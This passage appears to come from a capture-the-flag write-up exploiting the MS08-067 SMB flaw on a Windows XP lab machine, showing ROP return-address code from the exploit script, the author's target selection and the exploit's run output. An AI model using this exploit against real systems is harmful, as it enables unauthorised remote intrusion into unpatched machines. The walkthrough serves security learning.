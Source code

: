 ```

        elif (self.os == '4'):
            print 'Windows 2003 SP1 English\n'
            ret_dec = "\x8c\x56\x90\x7c"  # 0x7c 90 56 8c dec ESI, ret @SHELL32.DLL
            ret_pop = "\xf4\x7c\xa2\x7c"  # 0x 7c a2 7c f4 push ESI, pop EBP, ret @SHELL32.DLL
            jmp_esp = "\xd3\xfe\x86\x7c"  # 0x 7c 86 fe d3 jmp ESP @NTDLL.DLL
            disable_nx = "\x13\xe4\x83\x7c"  # 0x 7c 83 e4 13 NX disable @NTDLL.DLL
            jumper = disableNXjumper % (
                ret_dec * 6, ret_pop, disable_nx, jmp_esp * 2)

```

Based on my enumeration, I know it’s Windows XP. I’m going to try target 6 first, Windows XP SP3 English (NX). If that fails, I’ll come back and try others.

#### Run Exploit

I’ll open a `nc` listener, and run the exploit:

```

root@kali# python ms08-067.py 10.10.10.4 6 445
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer
#   - Added support for selecting a target port at the command line.
#   - Changed library calls to allow for establishing a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode.
#######################################################################

$   This version requires the Python Impacket library version to 0_9_17 or newer.
$
$   Here's how to upgrade if necessary:
$
$   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
$   cd impacket
$   pip install .

#######################################################################

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish

```
